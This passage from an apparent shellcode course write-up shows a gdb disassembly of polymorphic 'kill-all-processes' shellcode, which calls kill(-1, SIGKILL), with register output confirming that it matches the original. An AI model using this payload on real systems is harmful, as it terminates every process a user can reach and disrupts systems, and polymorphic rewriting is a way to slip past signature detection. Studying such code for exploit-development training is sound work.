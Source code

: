 #### Disassembly of the Polymorphic Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./kill-all-processes
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	push   0x9
   0x08048082 <+2>:	mov    al,0x9
   0x08048084 <+4>:	mov    cl,0x4
   0x08048086 <+6>:	mul    cl
   0x08048088 <+8>:	inc    al
   0x0804808a <+10>:	pop    ecx
   0x0804808b <+11>:	push   0xffffffff
   0x0804808d <+13>:	pop    ebx
   0x0804808e <+14>:	int    0x80
End of assembler dump.
(gdb) break *0x0804808e
Breakpoint 2 at 0x804808e
(gdb) c
Continuing.

Breakpoint 2, 0x0804808e in _start ()
(gdb) i r
eax            0x25	37
ecx            0x9	9
edx            0x0	0
ebx            0xffffffff	-1
esp            0xbffff700	0xbffff700
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x804808e	0x804808e <_start+14>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
```

After comparing the state of the general purpose registers in the original shellcode and the polymorphic shellcode, it is evident that all replaced instructions are semantically equivalent and the functionality of the original shellcode is preserved.
